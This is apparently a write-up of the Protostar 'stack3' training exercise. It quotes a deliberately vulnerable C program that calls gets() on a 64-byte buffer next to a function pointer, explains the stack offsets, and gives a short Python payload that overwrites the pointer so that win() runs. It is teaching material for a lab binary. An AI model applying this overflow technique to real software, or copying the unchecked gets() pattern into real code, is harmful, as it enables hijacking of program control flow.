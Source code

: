 # Stack3 Challenge

If you have read the writeups on the previous two challenges this challenge shouldn't be too hard. This is why the solution is not that analytical.

You can find the source code <a href="https://exploit-exercises.lains.space/protostar/stack3/">here</a>.

```c

#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

As you can see we basically have a function pointer called **fp** that we have to set to the right value so when execution reaches the command `fp()` , the `win()` function will be executed.

Let's take a look at the disassembled code

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack3/images/disas_st2.png">

 Based on knowledge acquired by the previous challenges we can see that our buffer starts at **esp+0x1c** and is **64** bytes long so it theoritically stops at **esp+0x5c**, exactly next to where **fp** is stored initially. 
 
 Therefore, we will need **64** bytes of padding to reach fp on the **stack** and then **4** more to _overwrite_ it.
 
We have to find out exactly where the function `win()` resides in memory and we can do so with   
<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack3/images/xwin.png">

Now let's create a simple python script

```python

#!/usr/bin/env python
from struct import pack

prepend = b"A"*64
prepend += pack("<L",0x8048424)
print prepend
```

Confirm

<img src="https://github.com/astasinos/Writeups/blob/master/Binary%20Exploitation%20%26%20Reverse%20Engineering/protostar/stack3/images/conf3.png">

### Success!

